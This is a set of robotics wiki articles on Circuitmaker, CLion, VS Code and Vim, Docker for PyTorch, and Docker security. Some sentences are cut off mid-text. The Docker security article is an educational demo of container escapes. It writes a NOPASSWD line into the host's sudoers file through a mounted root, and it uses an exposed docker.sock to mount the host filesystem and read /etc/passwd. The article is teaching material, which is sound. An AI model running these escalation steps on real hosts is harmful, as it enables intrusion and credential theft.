





/wiki/tools/altium-circuitmaker/
---
date: 2017-08-15
title: Altium Circuit Maker
---
Altium Circuitmaker is a Community Driven PCB Design Application. Circuitmaker can be downloaded [here](http://www.circuitmaker.com). It requires a user account since most of its features are cloud-based.

## Strengths and Weaknesses
### Benefits
1. Cloud based part library drawn from the Octopart database
  - 
2. Friendlier UI
  - This is strictly a comparison to EagleCAD. Eagle's UI is a more involved style, which lets the user get deeper into things, but is also not nearly as easy for the casual or new user, or for someone in a hurry.
  - 
3. Can output STEP files and view the part in 3D in Circuitmaker
  - 
4. The autorouter appears somewhat smarter
  - Partially due to the easier UI, it also feels like it takes it less time and effort to find a good path. You can make multiple profiles of routing schemes and widths, and choose to route only one net at a time. However, by putting in multiple width rules that each cover a single net, you can autoroute every net at once at the correct width.
  - 
5. Collaborative cloud based development method
6. Outputs include an excel BOM
7. No trial version; all functionality provided for free in the open beta.

### Drawbacks
1. No preloaded set of common drill sizes
  - 
2. No board outline by default
3. Poor default wiring options
4. Copper Pours are not intelligent
  - 
5. Some UI still obviously in need of tweaking
  - 

### Summary
In many ways, Circuitmaker is an improvement over EagleCAD. As an *open beta*, there are occasional stability issues as well as very long periods where it stops to work through an instruction. It's far enough along that the instability issues are a minor nuisance and do not appear to affect better computers. As for the freezes, Circuitmaker is a bit slow to start and to close, to load menus, and there are peak usage periods where it's slow to fetch new part information from the cloud. Otherwise it runs quite well. For projects, it could save a lot of time. In Eagle, the teams all make and remake the same parts, and often do much the same kind of thing throughout their project if they rely on PCBs. With Circuitmaker, all the parts fetch from Octop

/wiki/tools/clion/
---
date: 2020-02-03
# Jekyll 'Front Matter' goes here. Most are set by default, and should NOT be
# overwritten except in special circumstances. You should set the article's title:
title: CLion IDE
# The 'title' is automatically displayed at the top of the page
# and used in other parts of the site.
---

[CLion](https://www.jetbrains.com/clion/) (pronounced "sea lion") is a cross-plateform IDE for C and C++ framework developed by JetBrains.

An integrated development environment (**IDE**) is a software application that provides comprehensive facilities to computer programmers for software development. It includes various functionality that enhances the productivity of the developer significantly. IDE has a learning curve associated with it along with necessary setup time. In long term, it's no brainer that IDE saves a lot of time and effort in writing, debugging and maintaining software stack. 


If you are already comfortable using other IDE (not text-editor) than switching to CLion may not a worth while time investment. However if you have never used an IDE then CLion has a potential to make your life 10 times better. To give an example, developer spends hours debugging trivially simple mistakes. Without IDE the debugging task envelopes adding and removing printf/std::cout statements which is tiresome. A debugger functionality in IDE allows you to pause the code at any moment and view all the local, global variables and their values in a GUI form factor. This is one of many ways of how IDE makes developers life more productive.

## Installation

CLion is [available](https://www.jetbrains.com/clion/download/#section=linux) for the following Operating Systems.

- Windows
- macOS
- Linux

While CLion is not free software, students can get a free license to use the same. Use your school email id to create a Jetbrains account.

> Since most of the programming is done on ROS on the Linux platform, this article will focus on CLion on the Linux platform. Most of the discussion is invariant of the operating system.

## Running

For Linux, run `./clion.sh` in the terminal inside the bin folder of the extracted package. For ease of use, you can add the path of the bin folder in the `.bashrc` to open CLion from any directory.
> Also, make sure that  `source catkin_ws/devel/setup.bash` is added in the `~/.bashrc` so that CLion can link the required ROS packages

## Features

Like any other IDE, CLion has countless features. These can also be extended by installing plug-ins. Some of the advance key features are explained in this article. However, it's important to note that these features do not form an exhaustive list.

#### Debugging


After opening the project folder in CLion, right-click on the `CMakeLists.txt` and choose Reload CMake Project. The various executable target added in the CMake file will be available in the drop-down menu at the top right as shown in the above image.


Add the breakpoint in the code where you want to pause the code and press the debug button as shown in the image.


CLion will pause the execution at the breakpoint. You can view all the global, local variables and their values in the variable inspector. It also provides the functionality to run the code line by line by using various step in, step over, step out function. You can also press the resume button to continue execution till the next break-point. You can add new breakpoints even when code is paused at a breakpoint.

#### Re-factor Code

Refactoring is one of the most powerful tools in the CLion. Simplest re-factor operation is renaming a variable.


`right-click -> Refactor -> Rename`


`right-click -> Refactor -> Extract -> Method`


#### Entity Linking

Entity linking is very useful in efficiently navigating code-base in CLion. The press the `Ctrl` button on the keyboard and then click on any entity in the code. CLion will figure out the origin of that entity and will take you to that entity. 


- Class: CLion will take you to the definition of that class/struct.

Entity linking works to the imported library as well. If you have imported some C++ library and want to check the source code inside the library, just use entity linking. It will open the source code of the library if it's available. For example, in the below image, definition of `std::vector::push_back()` is opened using entity linking of CLion.


#### Context-Aware Search

Given a function or a variable, all its usage inside the code can also be searched by simply:

 `right-click -> Find Usages`


Above image shows the various usages CLion found of the private variable `costMap` inside the repository.

## Summary

One of the important part of transitioning to professional life is using tools that increases productivity specifically for large complicated projects. IDE is one such tool which may be overkill for a school assignment but is essential and rewarding for tackling future challenges. 

## See Also:

- [Pycharm IDE for Python](https://www.jetbrains.com/pycharm/)
- [VIM](https://roboticsknowledgebase.com/wiki/tools/vim/)
- [Sublime-Text](https://www.sublimetext.com/)
- [Sublime-Merge](https://www.sublimemerge.com/)

## References

- [CLion official website](https://www.jetbrains.com/clion/)
- [CLion Documentation](https://www.jetbrains.com/help/clion/clion-quick-start-guide.html)
- [CLion Quick Tour](https://www.youtube.com/watch?v=Srnw1dI1iAA)


/wiki/tools/code-editors-introduction-to-vs-code-and-vim/
---
# Jekyll 'Front Matter' goes here. Most are set by default, and should NOT be
# overwritten except in special circumstances. 
# You should set the date the article was last updated like this:
date: 2020-12-06 # YYYY-MM-DD
# This will be displayed at the bottom of the article
# You should set the article's title:
title: Code Editors - Introduction to VS Code and Vim
# The 'title' is automatically displayed at the top of the page
# and used in other parts of the site.
---
This article will provide you with some basic features for both VS Code and Vim, and perhaps it helps you decide which to start with!

## Prelude: Why code editors?

For a few scripts, like CMU some homework, it is very easy to manage the codebase. However, say it’s a python project that imports multiple modules from many places. To figure out the data inside different classes, you’d need a way to jump to definitions of the modules. Say it’s a c++ project, you’d want to know the origin of a variable. Or in development, want to change the na
## Outline
* Introduction
* VS Code
    * Install VS Code
    * Setup
    * Features
    * Plugins
* Vim
    * Installation
    * Vim Basics
    * Popular Plugins

### Introduction
Many code editors exist out there. Know the difference between the code editor and IDE (Integrated Dev Env): IDE lets you compile code and dig into runtime debugging. A code editor, on the other hand, sets up text editor functionalities that are cross accessible across all languages. Spyder and PyCharm are famous IDEs for Python. CLion and Eclipse are popular for C++ IDE. But this blog isn’t about IDE. So, popular code editors: VS Code, Vim, Sublime Text, Atom, (gedit, nano, emacs ← terminal editors).

In this, we concentrate on the VS Code and Vim. Why these two? One is a GUI based editor, the other a terminal editor.

Why VS Code? Super-versatile compared to its competitors. Lightweight too. Sublime text is lightweight but plugin functionality is comparatively lower. Atom has good plugins but slow/heavy. What is slow/fast/lightweight? How fast the editor opens up, sets up access to files, finds keywords across directories, installs and maintains plugins, hogs how much memory/RAM? Plus VS Code is maintained by Microsoft and is free (Wow, an MS product that’s free. That’s a first). The devs are VS Code knows the programmer in and out. The plugin functionality is insane.

Now, let’s dig into VS Code and Vim separately and whoever is reading this could then choose the one you like better as your code editor!

### VS Code
Standard VS Code comes built with these standard features. This article deals with setup and introducing how to use some of these features.

#### Install VS Code (assuming Linux - obviously)
A link for [downloading](https://code.visualstudio.com/download).
1. Download the deb file
2. `$ sudo apt-get install ./path/to/file/deb_file_name`

#### Setup
1. To set up any project [python or C++], ensure all project files can be seen in the current workspace.
2. Open VS Code (can use the Linux search/windows button). Source folders into the workspace.
3. The top left tab gives you file explorer. Click it!


#### Features
1. **Keyword search**: Right-click inside the file explorer space. Check out “Find in Folder..” and try searching for a keyword and you’d see lightning fast multi-file search (or) click on the search button below the explorer and use the find and replace options.


2. **Seek definition**: Open any file and right-click to peek at the definition of functions. Why is this useful? Reading code implies trying to figure out what each function is doing. Super useful in projects. Works for variables, classes, functions. You name it. VS-code can define it.


3. **Open the file by name**: Ctrl+P, and type file name.
4. **Shortcuts**: I use sublime shortcuts on VS Code. That’s the cool thing. You can configure it to work for your style. How to configure? You can install a sublime text key-bindings plugin. More on plugins later. But this specific one is called: ms-vscode.sublime-keybindings.
    * Ctrl+shift+k  → delete line
    * Ctrl+shift+d → copy line
    * Ctrl+shift+up/down →  move line
    * Ctrl+shift+left/right → word select withhold
    * Ctrl+d → select next occurrence of the same word in the current file
    * Alt + 1/2/3/ → choose tab
    * Split-screen → alt+shift+2
    * Ctrl + \ → comment/uncomment
Add all custom shortcuts in preferences, keyboard shortcuts. Do ctrl+shift+P and type keyboard shortcuts. Add whatever you need.

5. **Integrated terminal**: Click on terminal and open a new terminal. 


Now you can run programs without rotating between terminal and editor. Reduces a lot of strain on the eyes. You can also create multiple screens in the terminal.

6. **Python debugger**: You can put breakpoints and run python programs and look into the state of the program for faster debugging. Click next to the line number and that should drop a BP. Now start debugging. Choose whichever option makes sense (for trials go for current file).


You can step through the lines or move to the next BP or let the program run till the end.

Drawback: Image data cannot be displayed. Spyder offers that option. You cannot change variables and call functions to see the functionality. This is not a substitute for ipdb.set_trace(). This shows you program variables and memory.

7. **Language support**: What we MRSD people use? It supports all of it. Python, C++, Markdown, JSON, YAML, XML, CMake. How to change? Click on python/whatever there is.


Random thoughts: Spaces to tabs, the right-hand small screen helps find easy chunks of code, terminal focus shortcuts, file explorer shows modified files, tracked/untracked files, squiggles show if invalid syntax, auto-complete, function argument list displays.

#### Plugins
1. **Git graph**:
I think git support is auto existing on baseline VS Code but this just ups it. Why good?


When you do a git rebase/merge, conflicts show up in nice blocks which you can just choose. No more million backspaces to remove code.


If you use it with the integrated terminal, you can just choose a file from the terminal output, choose a block of code to stay, and continue rebasing.


2. **Python**:
This covers all the python debugging tools + module search functionality.

3. **Remote-SSH**:
Important for remote robot login and changing code. Why? I interned during COVID with a company in Boston while I was in Pittsburgh. I had to ssh over VPN into their robot to change code, compile, and test. How can I seek function when I’m on a terminal? This plugin is the answer. Install,
Connect to ssh via this, open required folders in VS Code.

What’s nice? It’s fast. No SSH lag. Why? I think it makes local changes and updates them all when you save. So that’s really fast. SSH over terminal was quite slow.

4. **C/C++ [Intellisense]**:
The beast. This is the ultimate C++ engine that any C++ programmer should get. What does it offer? Auto-completion, datatype checking, c++ compiler rules are checked on the fly as you type. If there’s a data type mismatch, it’ll shout at you. If there’s a semi-colon missing, it’ll squiggle away. If there’s an extra bracket :whistle_away: Peek/seek definition, declaration of objects/functions/namespaces. 

### Vim

We will focus on the installation, the basic commands in Vim which allow you to navigate around and edit the code like a pro, as well as some popular open-source extension plugins and how they could make your life much easier than you could have ever imagined.

#### Installation

Vim (Vi IMproved) is a text editor that is upwards compatible with Vi. While Vi is installed by default in macOS/OS X & Ubuntu, we need one extra step to install Vim.
```
$sudo apt-get install vim
```
That’s it!
To open any file with Vim, simply `vim file.txt` and let’s code.

#### Vim Basics
Before we start, let me give you some high-level guidelines when it comes to Vim. Vim is a modal editor. Now, you might not know what “modal” even means, but you shall get some idea that Vim doesn’t act like a normal editor, say Google doc or Gedit. You don’t just type characters and press the backspace or delete to remove words from the document. What are “modal” editors then? How could they benefit our lives?

I admit the learning curve for Vim is slightly higher than normal editors, but once you learn about it, I guarantee you would stick to it forever. Before jumping into the features, I shall introduce you to the 5 modes in Vim: Normal, Insert, Visual, Command, and Replace. Please don’t be intimidated just yet. To get started, all you have to know is really the Normal mode and the Insert mode. Others are left as some advanced usage which readers can explore once they get the taste of Vim.

1. **Normal Mode** a.k.a. Where one would spend most of their time when using Vim. Have you ever tried to edit a word at the beginning of a line and to move the cursor to the very front, you had to press and hold the left arrow key fsome corners of the keyboard so far that you don’t even know where they are! In fact, how many of you know where those two keys are in a Macbook? Vim offers these common navigations in the Normal mode with keys easily accessible. Use Vim.

    * **Manipulating the text**: What do you do when you want to delete a line? I bet you first move your cursor to the end of the line by holding on the right arrow key for 15 seconds, and then you press on the backspace key for another 20 seconds to delete the whole sentence. Vim is here to save your time.
        * `dd` to delete the whole line, `dw` to delete a word forward, and `db` to delete a word backward. Basically, you could combine `d` with every navigation commands that we mentioned earlier. Once you get used to it, you can really save yourself lots of time when editing texts. One should be able to observe the number of keys you have to press to get a specific task done.

    * **Repeating Actions**: For the abovementioned examples, you can always put some numbers before the command itself to indicate how many times you would like the operation to happen. For example, if you want to delete 3 lines, you can type `3dd`. If you want to yank 5 words starting from the current position, you can `5yw` and move to the target position then `p`. You can also navigate to the target position/line using this logic. To illustrate, `8l` to move the cursor 8 characters right and `4j` to go down 4 rows.

2. **Insert Mode**: This is the second most used mode and will be the most familiar behavior to most people. Once in insert mode, typing inserts characters just like a regular text editor. To enter Insert mode from Normal mode, we can either type in `i`, `a` or `o`.
    * `i` lets you insert characters before the current cursor.
    * `a` lets you append characters after the current cursor.
    * `o` inserts a new line and enters insert mode directly.
Beginners tend to rely on Insert mode too often because it acts just like the normal editors. However, if you do not appreciate the beauty of Normal mode, you are really missing out here. We should only enter Insert mode when this is our last option since if a job can be done in Normal mode, it is often much more efficient than typing or editing character by character in Insert mode.

#### Popular Plugins

Now, let me introduce you to some popular plugins that can be easily installed by inserting some lines in your `~/.vimrc` file. Almost all of them are maintained by some Github repositories, and the installation tutorials would be on their `README` page obviously. Just follow the steps and enjoy!

1. [NERDTree](https://github.com/scrooloose/nerdtree) - A popular plugin to display an interactive file tree view in a side panel, which can be useful when working on a larger project.
2. [CtrlP](https://github.com/ctrlpvim/ctrlp.vim) - A Full path fuzzy file, buffer, MRU, tag, ... finder for Vim. In fact, the shortcut for VS Code to open a file is a copy from this Vim Plugin.
3. [Syntastic](https://github.com/vim-syntastic/syntastic) - A syntax checking plugin for Vim. Basically, the basic features that you would expect a normal IDE would have. People criticize editors like Vim to not have this kind of feature when all you need to do is really to install an additional plugin.
4. [ACK](https://github.com/mileszs/ack.vim/tree/master) - allows searching with ack from within Vim and shows the results in a split window.
5. [Fugitive](https://github.com/tpope/vim-fugitive) -  Fugitive is the premier Vim plugin for Git. Or maybe it's the premier Git plugin for Vim? Either way, it's "so awesome, it should be illegal". That's why it's called Fugitive.

Just to name a few. The list is still super long. Vim plugins are powerful. However, one might not know how they could help your life if we just blindly install it. I suggest that beginners start by familiarizing themselves w
## Summary
There of course is not a single best code editor that one should use. People have different preferences and situations. In fact, the debate about which code editor is the best has been around for decades. People still strive to speak for their favorite editors while once a person is stuck with an editor, it is often really hard for them to make up their mind to change. However, VS Code and Vim are certainly two of the most used code editors nowadays. I hope the above context could help you decide the one you would like to try it out. Good luck coding!

## See Also:
- Vim Text Editor: <https://roboticsknowledgebase.com/wiki/tools/vim/>

## Further Reading
- [Transitioning from VS Code to Vim](https://medium.com/@kalebzeray/transitioning-from-vscode-to-vim-dc3b23e35c58)
- [Why I switched to Vim from Visual Studio Code](https://freshman.tech/from-vscode-to-vim/)

## References
- Learn vim For the Last Time: A Tutorial and Primer, <https://danielmiessler.com/study/vim/>
- Vim Editor Modes Explained, <https://www.freecodecamp.org/news/vim-editor-modes-explained/>


/wiki/tools/docker-for-pytorch/
---
date: 2022-12-05
title: Docker for Pytorch
---
In this article we will go over the following:
   1. Creating a custom docker image for deep learning workflows
   2. Docker run command for starting the container

## Docker Image for PyTorch based workflows
This article is going to be about how to set up a docker container for PyTorch training environment. Setting up docker for deep learning workflows is useful because configuring a GPU and installing all the ner image for complex workflows also allows us to experiment without worrying about breaking the system. If anything goes wrong, it is contained within the docker container and you can delete the container and create a new one. Hence having your workflow inside docker can be very useful.

## 1. Docker Image Setup
When a docker container is created it starts a new instance of an OS from scratch. The basic CPU drivers are pre-configured but the container does not have access to the GPUs of the system. Luckily for Nvidia GPUs we
But before we go ahead, make sure that you have NVIDIA GPU drivers installed. You can check if the drivers are installed by running the following command. If this fails, it means that the drivers are not installed and you first have to do that before proceeding ahead.

```properties
nvidia-smi
```
 
For running the NVIDIA Container Toolkit, we can simply pull the NVIDIA Container Toolkit image at the top of our Dockerfile like so,
 
```Dockerfile
FROM nvidia/cuda:10.2-base
```
 
 
This is all the code we need to expose GPU drivers to Docker. In that Dockerfile we have imported the NVIDIA Container Toolkit image for 10.2 drivers. You should check your Nvidia driver versions and pull the appropriate image. The above command will only get us nvidia-smi. For deep learning tasks we also need cuDNN, for which we should pull the following image:
 
```Dockerfile
FROM nvidia/cuda:11.3.0-cudnn8-devel-ubuntu20.04
```
  
For a list of all the available NVIDIA Container Toolkit images check the following webpage. You can choose from various Ubuntu versions depending on your Nvidia CUDA driver version[1]. The selected version is [2].
 
Using this Nvidia base image now we can create our own docker image and configure it to have all the packages pre installed.
 
Create a new folder
```properties
mkdir nvidia_docker
cd nvidia_docker
```
Paste the following lines in a text file inside the folder:
 
```properties
FROM nvidia/cuda:11.3.0-cudnn8-devel-ubuntu20.04
 
RUN apt-get update
RUN apt-get install -y wget && rm -rf /var/lib/apt/lists/*
 
RUN wget \
   https://repo.anaconda.com/archive/Anaconda3-2021.11-Linux-x86_64.sh \
   && bash Anaconda3-2021.11-Linux-x86_64.sh -b \
   && rm -f Anaconda3-2021.11-Linux-x86_64.sh
 
ENV PATH=/root/anaconda3/bin:${PATH}
 
RUN conda install \
   pytorch torchvision torchaudio cudatoolkit=11.3 -c pytorch \
   && conda install -c conda-forge tensorboard \
   && conda install -c anaconda scikit-learn
```
 
This is the dockerfile for our custom Deep Learning Training image. Explanation of the dockerfile:
 
The first line pulls the Nvidia base image on top of which we build our image.
```properties
FROM nvidia/cuda:11.3.0-cudnn8-devel-ubuntu20.04
```
 
Following lines install wget package.
```properties
RUN apt-get update
RUN apt-get install -y wget && rm -rf /var/lib/apt/lists/*
```
 age. Following lines download the Conda installer bash script from the website, run the bash script and delete it after completion. The URL in the command is for the latest version at the time of writing this article. Please change it to the current version when you install.
 
```properties
RUN wget \
   https://repo.anaconda.com/archive/Anaconda3-2021.11-Linux-x86_64.sh \
   && bash Anaconda3-2021.11-Linux-x86_64.sh -b \
   && rm -f Anaconda3-2021.11-Linux-x86_64.sh
```
 
We want our docker container to activate the Conda environment at creation. The following line adds the path to Conda installation to the environment variable PATH.
```properties
ENV PATH=/root/anaconda3/bin:${PATH}
```
 
The following lines will install all the necessary packages for our DL workflow such as PyTorch, Torchvision, cudatoolkit, Tensorboard and scikit-learn. Change the version number for the cudatoolkit based on your specs. Feel free to add the lines to any other software that you like.
```properties
RUN conda install \
   pytorch torchvision torchaudio cudatoolkit=11.3 -c pytorch \
   && conda install -c conda-forge tensorboard \
   && conda install -c anaconda scikit-learn
```
 
Now we can build the image using the dockerfile we created above with the following command. This will create our custom DL docker image called nvidia-test.
```properties
sudo docker build . -t nvidia-test
```
 
## 2. Running the container
 
The command to create a container instance from the image is as follows:
 
```properties
sudo docker run -it --privileged --shm-size 8G --net=host --name test -e DISPLAY=$DISPLAY -v /tmp/.X11-unix:/tmp/.X11-unix -v /home/user/docker_share/:/home/docker_share --gpus all nvidia-test bash
```
 
Breakdown of the command:
 
**-it**: This flag creates an interactive instance of the container
 
**--privileged:** This flag gives permission to the docker container access over all the I/O ports of the host computer.
 
**--net=host:** This flag sets the docker container to share the same IP address as the host computer.
 
**-shm-size 8G:** This flag sets the shared memory between the host computer and the docker container as 8GB. This flag is important because by default the shared memory between docker container and host computer is very less and during DL training this creates low memory issues. Hence set it to 8GB or more.
 
**--name test:** This flag gives a name to the container. Change according to your needs.
 
 
**-v /home/user/docker_share/:/home/docker_share:** This flag is used to mto easily transfer files and save our work from inside the docker container. Change the paths according to your needs.
 
**--gpus all:** This is the most important flag of all. This gives the container access to the GPUs.
 
## Summary
With this we come to the end of our article. If you were able to successfully follow the above commands and were able to run the container, you now have a docker environment for training your PyTorch model. Hope this makes your life easier.

## See Also
- Docker https://roboticsknowledgebase.com/wiki/tools/docker/
- Setup GPU https://roboticsknowledgebase.com/wiki/computing/setup-gpus-for-computer-vision/
- Python construct https://roboticsknowledgebase.com/wiki/programming/python-construct/

## Further Reading
- PyTorch https://catalog.ngc.nvidia.com/orgs/nvidia/containers/pytorch
- Setting Up TensorFlow And PyTorch Using GPU On Docker https://wandb.ai/wandb_fc/tips/reports/Setting-Up-TensorFlow-And-PyTorch-Using-GPU-On-Docker--VmlldzoxNjU5Mzky
- Develop like a Pro with NVIDIA + Docker + VS Code + PyTorch https://blog.roboflow.com/nvidia-docker-vscode-pytorch/

## References
- CUDA Driver versions https://gitlab.com/nvidia/container-images/cuda/blob/master/doc/supported-tags.md
- Selected version https://repo.anaconda.com/archive/Anaconda3-2021.11-Linux-x86_64.sh


/wiki/tools/docker-security/
---
# Jekyll 'Front Matter' goes here. Most are set by default, and should NOT be
# overwritten except in special circumstances. 
# You should set the date the article was last updated like this:
date: 2023-05-07 # YYYY-MM-DD
# This will be displayed at the bottom of the article
# You should set the article's title:
title: Docker and Windows Security
# The 'title' is automatically displayed at the top of the page
# and used in other parts of the site.
---

However, using Docker also poses some security concerns. Since containers share the same host operating system, an attacker who gains access to a container can potentially access other containers running on the same host. Additionally, if Docker images are not properly secured or updated, they can become vulnerable to exploits and attacks. Therefore, it's important to follow best practices for securing Docker, such as using only trusted images, isolating containers, and regularly updating images and containers to ensure that they are running with the latest security patches.

Given that many MRSD teams are utilizing Docker for their projects, it is important to be mindful of the potential security concerns that come with its usage. 

# Docker Breakout
Assuming that today a server uses Docker to deploy containers for its website and database, if the website is vulnerable and gets hacked, the engineer can quickly switch to a new version using Docker for immediate maintenance and patching. Howeveacker is inside one of the Docker containers on that host machine, and their goal is to escape the container, infiltrate the host machine, steal passwords, and tamper with grades.

---

## Container Techniques

- There are six important technologies utilized in containers, two of which are more relevant to this experiment's demo.

    Namespaces

    Cgroups

    Seccomp

    Capabilities

    LSM

    OverlayFS

### Namespaces

One of the key benefits of containers is that they allow for the creation 
> A namespace wraps a global system resource in an abstraction that makes it appear to the processes within the namespace that they have their own isolated instance of the global resource. Changes to the global resource are visible to other processes that are members of the namespace, but are invisible to other processes. One use of namespaces is to implement containers.

The term "resource" here refers to things like mount points or PID


Cgroups control the memory capacity and CPU resources that processes can use through cgroupfs, preventing a bug in a process from causing the entire computer to crash. Docker can use the --cpu-shares flag to limit the CPU resources that each container can use.

---

## Privileged Escalation

```bash
sudo apt-get install docker.io
sudo usermod -aG docker evil
su evil

# Should fail
su deluser victim
sudo cat /etc/sudoers

cd 
mkdir privesc
nano Dockerfile

FROM debian:wheezy
ENV WORKDIR /privesc
RUN mkdir -p $WORKDIR
WORKDIR $WORKDIR

docker build -t privesc . # Inside current directory
docker run -v /:/privesc -it privesc /bin/bash

#Inside container
echo "evil ALL=(ALL) NOPASSWD: ALL" >> /privesc/etc/sudoers
cat /privesc/etc/sudoers
whoami # Success!!

```

---

## Mitigation of Privilege Escalation


## Exposed Docker Socket

If docker.sock is mounted from the host into a container, we can use docker.sock to escape the container. Since docker.sock has the docker group, it can execute many docker commands without root privileges. We can use this privilege to execute some programs that cannot be executed without this socket.

### Docker socket

The Docker socket is a type of UNIX socket used by the Docker CLI to execute Docker commands with root privileges. docker.sock is not originally present inside the container, but users inside the container may need to mount it to manage or create other containers. However, mounting docker.sock inside the container increases the attack surface and poses a security risk.



Next, we will go through the steps of the demo experiment:

### Victim

Before conducting the attack, the attack environment must be set up. Set up a Docker container named "sock" that contains the Docker socket inside it.

```bash
docker run -itd --name sock -v /var/run/docker.sock:/var/run/docker.sock alpine:latest
```

### Intruder

To check if docker.sock is present inside the container, you can usually find it at the path /var/run/docker.sock.

```bash
find / -name docker.sock
```

Assuming you have confirmed the existence of docker.sock in the "sock" container, you can proceed to access the shell of the "sock" container. You can use the docker exec command to do this. Here's an example command:

```bash
docker exec -it sock sh
```

This command will start a shell session (sh) inside the "sock" container with an interactive terminal (-it) attached.

Inside the sock container, set up a new container and mount the host's root path / directly into the /test directory of the new container. Then, open a new shell inside the new container.

```bash
docker -H unix:///var/run/docker.sock run -it -v /:/test:ro -t alpine sh
```

The test folder will now appear, containing the root path of the host. At this point, an attacker can access all files and confidential information on the host through the new container.

```bash
cd /test && cat /etc/passwd
```

```bash
dockerd --userns-remap="evil:evil" # This limits the capabilities of evil user
```

## Reference

1. [https://www.netsparker.com/blog/web-security/privilege-escalation/](https://www.netsparker.com/blog/web-security/privilege-escalation/)
2. [https://docs.docker.com/engine/security/userns-remap/](https://docs.docker.com/engine/security/userns-remap/)
3. [https://www.youtube.com/watch?v=MnUtHSpcdLQ](https://www.youtube.com/watch?v=MnUtHSpcdLQ)
4. [https://flast101.github.io/docker-privesc/](https://flast101.github.io/docker-privesc/)
